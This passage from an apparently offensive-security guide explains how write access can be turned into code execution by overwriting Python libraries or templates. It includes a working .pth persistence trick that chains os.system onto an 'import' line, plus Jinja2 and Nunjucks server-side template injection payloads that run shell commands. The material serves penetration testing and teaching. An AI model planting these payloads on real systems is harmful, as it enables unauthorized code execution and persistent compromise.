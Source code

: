 ### Libraries

Not only user-created code can be overwritten, sometimes a program does not reload its source code while running. For those situations, another trick that may work is to overwrite libraries that are loaded. If you have permissions to overwrite a Python `.py` file inside the packages folder, or can overwrite a JAR file for Java applications, it could grant code execution again.

Specific to Python, one trick [shared in this article](https://www.sonarsource.com/blog/pretalx-vulnerabilities-how-to-get-accepted-at-every-conference/) involves a `.pth` file stored in `~/.local/lib/pythonX.Y/site-packages`. These files are automatically parsed when starting a new Python process to load the package paths, but has one interesting behaviour that we can exploit:

```python
...
if line.startswith(("import ", "import\t")):
    exec(line)
```

The above shows that if any line starts with `import` , that whole line is executed. By using `;` semicolons we can add arbitrary statements to this single line and execute any code we like:

{% code title="~/.local/lib/pythonX.Y/site-packages/anything.pth" %}
```python
ANYTHING
import os; os.system("id > /tmp/pwned")
ANYTHING
```
{% endcode %}

The above will execute when the correct Python version is launched even when the "ANYTHING" part is invalid syntax, it only needs to be valid UTF-8.

### Templates - dirty

If source code is not writable or isn't reloaded, another simple method is overwriting templates that can execute code. There are many different templating engines that all use their own syntax and context, some more restricted than others. But most of them have ways to execute arbitrary code or at least read some secrets. Read the full Server-Side Template Injection page to see if your case fits:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#exploits" %}
List of exploits for templating languages
{% endembed %}

Here are a few easy examples:

{% code title="shell.html (Jinja2)" %}
```django
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```
{% endcode %}

{% code title="shell.html (Nunjucks)" %}
```javascript
{{ range.constructor("return global.process.mainModule.require('child_process').execSync('id')")() }}
```
{% endcode %}
